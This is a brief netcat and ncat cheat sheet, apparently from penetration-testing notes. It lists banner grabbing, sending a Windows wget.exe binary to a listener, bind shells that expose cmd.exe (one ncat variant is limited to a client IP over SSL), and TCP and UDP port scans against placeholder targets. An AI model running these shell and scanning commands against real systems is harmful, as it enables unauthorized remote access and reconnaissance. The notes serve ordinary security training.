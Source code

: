 **Netcat**  
nc -nv TargetIP port  #connect to port,client/banner grab  
nc -nlvp 4444  #start netcat server  

nc -nv TargetIP 4444 </usr/share/windows-binaries/wget.exe #send file to listening netcat server  
nc -nlvp 4444 > incoming.exe #receive file from client pipe into exe  

nc -lvp 4444 -e cmd.exe #bind shell server  
nc -vn TargetIP 4444 #bind shell client  

nc -nvv -w 1 -z TargetIP Port-Range #netcat tcp port scan  
nc -unvv -w 1 -z TargetIP 160-165 #UDP scan  

**Ncat**  
ncat -lvp 4444 -e cmd.exe --allow ClientIP --ssl #ncat server bind shell only to clientip with ssl encryption  
ncat -v ServerIP 4444 --ssl #client connect bind 
